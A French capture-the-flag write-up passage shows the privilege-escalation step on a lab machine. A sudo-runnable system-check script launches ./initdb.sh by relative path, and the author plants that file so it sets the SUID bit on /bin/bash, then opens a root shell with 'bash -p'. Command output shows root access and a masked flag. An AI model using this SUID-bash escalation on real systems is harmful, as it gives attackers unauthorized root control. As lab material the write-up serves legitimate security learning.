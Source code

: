 ```bash

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Nous pouvons voir que initdb.sh est lancé, il nous suffit donc de le créer et d'y placer une charge utile malveillante comme suit :

```bash
echo "chmod u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
```

Exécuter ensuite /usr/bin/syscheck avec les privilèges sudo dans le même dossier que initdb.sh puis /bin/bash -p pour accéder à l'interpréteur de commandes racine

```bash
sudo /usr/bin/syscheck
/bin/bash -p
```
## root
```bash
(remote) root@headless:/root# id
uid=1000(dvir) gid=1000(dvir) euid=0(root) groups=1000(dvir),100(users)
(remote) root@headless:/root# cat root.txt
80*************ce
```

## Source

[https://book.hacktricks.xyz/](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#retrieve-cookies)

